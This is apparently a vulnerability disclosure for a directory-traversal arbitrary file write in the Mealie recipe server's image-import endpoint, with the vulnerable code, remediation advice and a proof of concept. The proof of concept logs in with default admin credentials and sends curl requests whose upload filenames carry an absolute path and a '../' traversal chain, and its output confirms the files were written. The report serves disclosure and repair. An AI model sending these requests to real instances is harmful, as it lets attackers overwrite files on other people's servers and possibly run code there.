



[CVE ID]

CVE-2026-50918

[PRODUCT]

mealie-recipes/mealie

[VERSION]

commit 15d56c42f7e9e4d1c866cde8b993f56f67add91a (upstream HEAD, 2026-03-02)

[PROBLEM TYPE]

Directory Traversal (CWE-22) leading to Authenticated Arbitrary File Write

# Description

The image-import endpoint [`POST /api/recipes/create/image`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/recipe/recipe_crud_routes.py#L223-L240) in `mealie/routes/recipe/recipe_crud_routes.py` accepts a list of multipart image uploads (`images: list[UploadFile]`), whose `filename` metadata is fully attacker-controlled. The handler forwards the uploads to [`RecipeService.create_from_images()`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/services/recipe/recipe_service.py#L323-L330) in `mealie/services/recipe/recipe_service.py`, which persists every upload with:

```python
with temp_path.joinpath(image.filename).open("wb") as buffer:
    ...
local_images.append(temp_path.joinpath(image.filename))
```

`pathlib.Path.joinpath` performs no sanitization: an absolute `filename` discards the per-request temp directory (`/app/data/.temp/<uuid>`) entirely, and `..` segments walk out of it, so the raw upload bytes land at an arbitrary path writable by the service user.

The route sits behind a [feature gate](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/recipe/recipe_crud_routes.py#L234) on `OPENAI_ENABLED and OPENAI_ENABLE_IMAGE_SERVICES`. `OPENAI_ENABLED` is a derived setting computed from a configured OpenAI API key and model (`mealie/core/settings/settings.py` L422), while `OPENAI_ENABLE_IMAGE_SERVICES` defaults to `True` (L400). A fresh instance with no API key has the gate closed and returns HTTP 400 before the sink; once the gate is open (an API key configured), the file write happens before any OpenAI call, so the request answers HTTP 500 with a dummy key even though the traversal write has already hit the disk.

# Proof of Concept

## victim setup

Build the image from the pinned commit and start the official compose stack with an override that maps the reproduction port and enables the OpenAI image-services gate:

```bash
git clone https://github.com/mealie-recipes/mealie.git && cd mealie
git checkout 15d56c42f7e9e4d1c866cde8b993f56f67add91a

cat > docker/docker-compose.scdd.override.yml <<'YAML'
services:
  mealie:
    container_name: mealie-scdd-50918
    image: mealie:scdd-50918
    ports: !override
      - "34788:9000"
    environment:
      OPENAI_ENABLED: "true"
      OPENAI_ENABLE_IMAGE_SERVICES: "true"
      OPENAI_API_KEY: "scdd_dummy"
      OPENAI_BASE_URL: "http://127.0.0.1:9/v1"   # fast-fail: dummy key never reaches api.openai.com
YAML

docker compose -p scdd_50918 -f docker/docker-compose.yml -f docker/docker-compose.scdd.override.yml up -d --build
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:34788/api/app/about   # -> 200
```

`OPENAI_BASE_URL` only controls how fast the dummy-key call fails; the traversal write precedes any OpenAI call either way. The sink was verified in the running image (`joinpath(image.filename)` at `recipe_service.py` L328), and the first target path was confirmed absent before the attack.



## attack steps

1. Authenticate through the OAuth2 password flow. On a fresh instance the default first-login credentials `admin` / `MyPassword` work, and the login returns a 185-character JWT:

	```bash
	TOKEN="$(curl -sS -X POST http://127.0.0.1:34788/api/auth/token \
	  -H 'Content-Type: application/x-www-form-urlencoded' \
	  --data-urlencode 'username=admin' --data-urlencode 'password=MyPassword' \
	  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"
	```

2. Build a 103-byte 1x1 PNG whose `tEXt` chunk carries the marker, so the written bytes can later be identified inside the container:

	```bash
	python3 - <<'PY'
	import struct, zlib
	marker = b"CVE50918_MARKER"
	def chunk(typ, data):
	    crc = zlib.crc32(typ); crc = zlib.crc32(data, crc) & 0xFFFFFFFF
	    return struct.pack(">I", len(data)) + typ + data + struct.pack(">I", crc)
	sig = b"\x89PNG\r\n\x1a\n"
	ihdr = struct.pack(">IIBBBBB", 1, 1, 8, 6, 0, 0, 0)
	idat = zlib.compress(b"\x00\x00\x00\x00\x00")
	png = sig + chunk(b"IHDR", ihdr) + chunk(b"tEXt", b"Comment\x00" + marker) + chunk(b"IDAT", idat) + chunk(b"IEND", b"")
	open("/tmp/scdd_50918_payload.png", "wb").write(png)
	print("payload bytes=%d has_marker=%s" % (len(png), marker in png))
	PY
	```

3. Attack A, an absolute path as the multipart `filename`. The response is `Internal Server Error` with `HTTP_STATUS=500`, which is expected: the dummy OpenAI key fails only after the traversal write already hit the disk:

	```bash
	curl -sS -X POST http://127.0.0.1:34788/api/recipes/create/image \
	  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
	  -F 'images=@/tmp/scdd_50918_payload.png;filename=/tmp/scdd_50918_pwned.png;type=image/png' \
	  -w '\nHTTP_STATUS=%{http_code}\n'
	```

4. Attack B, a dot-dot traversal `filename`. Four `../` sequences cancel `/app/data/.temp/<uuid>` (five directory levels below the container root) and reach `/`; the response is again `HTTP_STATUS=500`:

	```bash
	curl -sS -X POST http://127.0.0.1:34788/api/recipes/create/image \
	  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
	  -F 'images=@/tmp/scdd_50918_payload.png;filename=../../../../tmp/scdd_50918_pwned2.png;type=image/png' \
	  -w '\nHTTP_STATUS=%{http_code}\n'
	```

	

5. Verify inside the container. Both targets exist with exactly the uploaded bytes (same md5, marker present), the host-side reference matches, and the image pipeline even drops `-min-original.jpg` sidecars next to the traversed targets:

	```console
	$ docker exec mealie-scdd-50918 ls -la /tmp/scdd_50918_pwned.png /tmp/scdd_50918_pwned2.png
	-rw-r--r-- 1 abc abc 103 Nov  3 15:56 /tmp/scdd_50918_pwned.png
	-rw-r--r-- 1 abc abc 103 Nov  3 15:56 /tmp/scdd_50918_pwned2.png
	$ docker exec -i mealie-scdd-50918 python3 -
	/tmp/scdd_50918_pwned.png  exists=True size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
	/tmp/scdd_50918_pwned2.png exists=True size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
	$ python3 -   # host-side reference (what the attacker uploaded)
	host payload size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
	```

	RESULT=VERIFIED: both 103-byte markers landed in `/tmp` outside the per-request temp dir.

	A negative control against a stack recreated without the OpenAI env vars confirms the gate: the same request is rejected with `{"detail":{"message":"OpenAI image services are not enabled",...}}` and `HTTP_STATUS=400`, and no file is written.

	

# Impact

An authenticated user can write fully attacker-controlled bytes to an arbitrary path writable by the container service user when the instance has OpenAI integration configured:

- Arbitrary destination path (absolute paths, or `../` chains escaping the per-request temp dir) and arbitrary content (the uploaded bytes are written verbatim, demonstrated by the matching md5 and marker inside the PNG `tEXt` chunk).
- The practical gate is an OpenAI API key configured with image services not explicitly disabled; the write occurs before any OpenAI call, so a failing key does not prevent it (the request answers 500 after the write).
- On a fresh instance with no OpenAI API key the gate is closed and the handler rejects the request with HTTP 400 before any write (negative control).
- Overwriting application code or configuration files writable by the service user could escalate to remote code execution as characterized in the CVE record; plausible, not demonstrated here.

# Occurrences

- [`mealie/routes/recipe/recipe_crud_routes.py L223`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/recipe/recipe_crud_routes.py#L223) — vulnerable route `POST /api/recipes/create/image`, uploads forwarded at L240
- [`mealie/routes/recipe/recipe_crud_routes.py L234`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/recipe/recipe_crud_routes.py#L234) — feature gate `OPENAI_ENABLED and OPENAI_ENABLE_IMAGE_SERVICES`
- [`mealie/services/recipe/recipe_service.py L328`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/services/recipe/recipe_service.py#L328) — `create_from_images()` sink, `temp_path.joinpath(image.filename).open("wb")` with unsanitized multipart filename; joined again at L330

# Remediation

Recommended fixes:

- Reduce each multipart `filename` to its base name (`os.path.basename` or the framework equivalent) and reject absolute paths before joining.
- Resolve the final target path and verify it stays inside the per-request temp directory before writing.
